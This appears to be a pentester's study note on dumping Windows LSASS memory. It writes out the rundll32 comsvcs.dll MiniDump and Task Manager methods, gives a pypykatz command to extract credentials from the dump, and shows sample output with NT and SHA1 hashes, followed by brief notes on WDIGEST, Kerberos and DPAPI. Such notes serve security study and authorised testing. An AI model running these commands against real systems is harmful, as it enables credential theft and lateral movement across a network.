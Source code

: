 #windows/auth/LSASS
![[LSASS.png]]

# Dumping LSASS Process Memory
### Task Manager Method
Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file
```
C:\Users\loggedonusersdirectory\AppData\Local\Temp\lsass.DMP
```
### Rundll32.exe & Comsvcs.dll Method
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32
1. Find PID of lsass.exe
	* via cmd: `tasklist /svc `
	* via powershell: `Get-Process lsass`
2. Creating dump in powershell:
```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
**Recall that most modern AV tools recognize this as malicious and prevent the command from executing.**
# Extract creds from dump
https://github.com/skelsec/pypykatz
```bash
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```
## MSV
https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package
example:
```
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```
## WDIGEST
WDIGEST is an older authentication protocol enabled by default in Windows XP - Windows 8 and Windows Server 2003 - Windows Server 2012. 
**Disabled by default**
example:
```
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
```
## Kerberos
Kerberos is a network authentication protocol used by Active Directory in Windows Domain environments. Domain user accounts are granted tickets upon authentication with Active Directory. This ticket is used to allow the user to access shared resources on the network that they have been granted access to without needing to type their credentials each time. LSASS caches passwords, ekeys, tickets, and pins associated with Kerberos. It is possible to extract these from LSASS process memory and use them to access other systems joined to the same domain.
## DPAPI
The Data Protection Application Programming Interface or [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection)
Apps:
* Internet Explorer
* Google Chrome
* Outlook
* RDP
* Credential manager
